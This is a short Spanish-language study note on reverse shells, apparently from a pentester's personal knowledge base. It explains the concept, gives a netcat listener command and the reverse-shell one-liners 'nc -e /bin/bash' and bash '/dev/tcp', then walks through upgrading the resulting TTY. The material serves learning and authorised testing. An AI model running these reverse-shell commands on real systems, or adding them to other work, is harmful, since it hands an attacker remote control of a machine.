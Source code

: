 ----------------
- Tags: #bash #shells #exploiting #hacking 
------------------
# Definición

> Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad, obteniendo una [[Shell]]. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se consigue con la posibilidad de ejecución de comandos en la máquina atacante, y de esta manera podemos ejecutar comandos en la máquina remota desde nuestra máquina.

------------
# Uso

Para ello es necesario ponernos en escucha a través de algún puerto (usualmente el 443) con [[NetCat]]:
```bash
nc -nlvp <puerto>

#Si queremos hacer uso de la herramienta rlwrap (de manera que nos funcione el ctrl-l, ir arriba y demás)
rlwrap nc -nlvp <puerto>
```

Y como podemos ejecutar comandos desde la máquina comprometida, establecemos la conexión con dicho servicio, o bien con [[NetCat]] si está instalado, o con uso de bash desde la máquina comprometida:

```bash
nc -e /bin/bash <IP> <puerto>
bash -c "bash -i >& /dev/tcp/<IP>/<puerto> 0>&1"   #En el caso que no se disponga de nc en la máquina comprometida
```

Para establecer este tipo de conexión, se pueden hacer desde diversas herramientas y comandos, los cuales está difícil saberse todos, por lo que haremos uso frecuente mente de chuletillas como [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

# Arreglo de reverse shell

La mayoría de las veces, la **reverse shell** no tendrá funcionalidad completa, como el ctrl+l, para que todo funcione correctamente tenemos que hacer lo siguiente:

Desde la **reverse shell** ejecutar lo siguiente:

```bash
script /dev/null -c bash
```

Mandamos la tarea a segundo plano con ctrl+z, y ejecutamos en **nuestra** terminal el siguiente comando:

```bash
stty raw -echo; fg
```

Sin tocar nada, ejecutamos el siguiente comando seguidamente:

```bash
reset xterm
```

Y ahora habría que ajustar el total de filas y columnas. Desde **nuestra** terminal ejecutamos lo siguiente para ver el número de filas y columnas:

```bash
stty size
```

Y para ajustarlas dentro de la **reverse shell**, ejecutamos el siguiente comando:

```bash
stty rows <nº filas> columns <nº columnas>
```

Y para terminar ejecutamos desde la **reverse shell** lo siguiente:

```bash
export TERM=xterm
export SHELL=bash
```